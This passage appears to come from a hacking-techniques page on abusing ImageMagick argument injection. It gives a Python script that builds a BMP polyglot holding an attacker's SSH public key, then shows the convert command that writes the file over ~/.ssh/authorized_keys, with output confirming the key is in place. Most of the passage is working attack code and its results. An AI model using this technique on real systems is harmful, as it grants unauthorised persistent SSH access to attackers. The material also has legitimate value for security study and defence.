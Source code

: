 Luckily, it understands many formats with useful quirks, like BMP which easily allows you to insert _any content_ in RGB data while remaining valid. A useful **polyglot** to make with this is writing to the `~/.ssh/authorized_keys` file in order to log in via SSH. This file is surprisingly error-tolerant and will only split it with `\n` newlines and interpret every chunk as a possible key. This means that if we have our key `"\nssh-rsa AAAAB3NzaC1yc2E...uipd2wIDAQAB\n"` _somewhere_ in it, we are able to log in.&#x20;

The script below creates a file with an SSH public key embedded as plain text, so that if it takes `authorized_keys`'s place, it will allow an attacker to log in:

{% code title="create_bmp.py" %}
```python
import struct

DATA = b"""
ssh-rsa AAAAB3NzaC1yc2E...uipd2wIDAQAB
"""

# Reference: https://github.com/corkami/pics/blob/master/binary/bmp1.png
header = b"\x00\x00\x00\x00" + b"\x1c\x00\x00\x00" + b"\x0c\x00\x00\x00" + b"\x01\x00\x01\x00\x01\x00\x18\x00\x00\x00"
file_length = 2 + 4 + len(header) + len(DATA)
bmp = b"BM" + struct.pack("<I", file_length) + header + DATA

with open("payload.bmp", "wb") as f:
    f.write(bmp)
```
{% endcode %}

If we then use this file to inject arguments, ImageMagick will happily parse and write the file:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert payload.bmp -write ~/.ssh/authorized_keys output.png
</strong><strong>$ cat ~/.ssh/authorized_keys
</strong>BMF

ssh-rsa AAAAB3NzaC1yc2E...uipd2wIDAQAB
<strong>$ hd ~/.ssh/authorized_keys
</strong>00000000  42 4d 46 00 00 00 00 00  00 00 1a 00 00 00 0c 00  |BMF.............|
00000010  00 00 0e 00 01 00 01 00  18 00 0a 73 73 68 2d 72  |...........ssh-r|
00000020  73 61 20 41 41 41 41 42  33 4e 7a 61 43 31 79 63  |sa AAAAB3NzaC1yc|
00000030  32 45 2e 2e 2e 75 69 70  64 32 77 49 44 41 51 41  |2E...uipd2wIDAQA|
00000040  42 0a 00 00 00 00                                 |B.....|
</code></pre>
